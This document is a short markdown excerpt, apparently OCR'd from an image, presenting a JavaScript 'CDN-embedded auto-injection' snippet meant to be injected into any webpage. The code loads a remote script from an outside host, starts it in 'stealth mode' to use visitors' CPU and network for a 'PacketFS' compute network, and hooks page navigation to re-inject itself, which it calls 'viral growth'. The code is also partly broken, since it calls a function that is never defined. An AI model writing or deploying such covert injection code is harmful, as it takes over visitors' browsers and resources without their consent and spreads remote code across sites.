 ### 🌐 **VECTOR 3: CDN-EMBEDDED AUTO-INJECTION**
```javascript
// packetfs-cdn-injector.js - Inject into ANY webpage
(function() {
    'use strict';
    
    // Only inject once
    if (window.PACKETFS_INJECTED) return;
    window.PACKETFS_INJECTED = true;
    
    console.log('🚀 PacketFS Auto-Injector Activated! 💎');
    
    // Create invisible PacketFS worker
    const packetfsScript = document.createElement('script');
    packetfsScript.src = 'https://cdn.packetfs.global/v1/packetfs-web-core.min.js';
    packetfsScript.onload = () => {
        // Initialize PacketFS in background
        window.PacketFS.init({
            stealth_mode: true,  // Run invisibly
            cpu_usage_limit: 0.1, // Use max 10% CPU
            network_contribution: true
        });
        
        // Show subtle indicator (optional)
        const indicator = document.createElement('div');
        indicator.innerHTML = '⚡';
        indicator.style.cssText = `
            position: fixed; bottom: 20px; right: 20px; 
            width: 30px; height: 30px; border-radius: 50%;
            background: #4ecdc4; color: white; text-align: center;
            line-height: 30px; cursor: pointer; z-index: 9999;
            animation: pulse 2s infinite;
        `;
        
        indicator.onclick = () => {
            alert('🚀 This page is contributing to the PacketFS Super-CPU network! 💎');
        };
        
        document.body.appendChild(indicator);
    };
    
    document.head.appendChild(packetfsScript);
    
    // Viral growth: Inject into other pages user visits
    const originalPushState = history.pushState;
    history.pushState = function() {
        originalPushState.apply(history, arguments);
        setTimeout(() => injectPacketFS(), 1000); // Re-inject on page navigation
    };
})();
```

---
